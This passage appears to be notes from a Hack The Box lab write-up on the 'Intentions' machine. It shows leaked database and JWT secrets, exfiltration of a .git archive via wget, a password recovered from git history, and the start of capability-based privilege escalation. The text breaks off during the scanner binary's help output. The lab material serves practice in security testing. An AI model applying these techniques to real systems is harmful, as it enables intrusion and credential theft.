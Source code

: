 ---OUTPUT---
DB_CONNECTION=mysql
DB_HOST=localhost
DB_PORT=3306
DB_DATABASE=intentions
DB_USERNAME=laravel
DB_PASSWORD=02mDWOgsOga03G385!!3Plcx
---
JWT_SECRET=yVH9RCGPMXyzNLoXrEsOl0klZi3MAxMHcMlRAnlobuSO8WNtLHStPiOUUgfmbwPt
```
- got the .git file we can compress it, and put it in the public directory where we can pull it from our machine as it's reachable to us.
	```bash
---TARGET-MACHINE---
tar -czvf public/git.tar.gz .git
---LOCAL-MACHINE---
wget http://intentions.htb/git.tar.gz
```
- We then do some git enumeration
	```bash
git log 
git diff 
OR
git log -p # and read through everything
---OUTPUT---
$res = $test->postJson('/api/v1/auth/login', ['email' => 'greg@intentions.htb', 'password' => 'Gr3g1sTh3B3stDev3l0per!1998!']);
```
- can login as greg
## Privilege escalation
- sudo -l, uname -a reveals nothing
- the find command reveals nothing
- on checking steve's home directory we find a script
	- on reading the script we see it calls /opt/scanner/scanner
		- it is a binary executable
		- couldn't find much with strace
		- strings doesn't work
		- stat shows no setuid existing
		- **NEW COMMAND** : 
			```bash
getcap /opt/scanner/scanner

---OUTPUT---
/opt/scanner/scanner cap_dac_read_search=ep
```
			- And since it's owned by root, this binary can basically read anything as root
				- maybe can read ssh key?
		- We also do:
			```bash
/opt/scanner/scanner

---OUTPUT---
The copyright_scanner application provides the capability to evaluate a single file or directory of files against a known blacklist and return matches.
  -c string **
     Path to image file to check. Cannot be combined with -d
  -d string
     Path to image directory to check. Cannot be combined with -c
  -h string **
     Path to colon separated hash file. Not compatible with -p
  -l int
     Maximum bytes of files being checked to hash. Files smaller than this value will be fully hashed. Smaller values are much faster but prone to false positives. (default 500)
  -p [Debug] Print calculated file hash. Only compatible with -c
  -s string **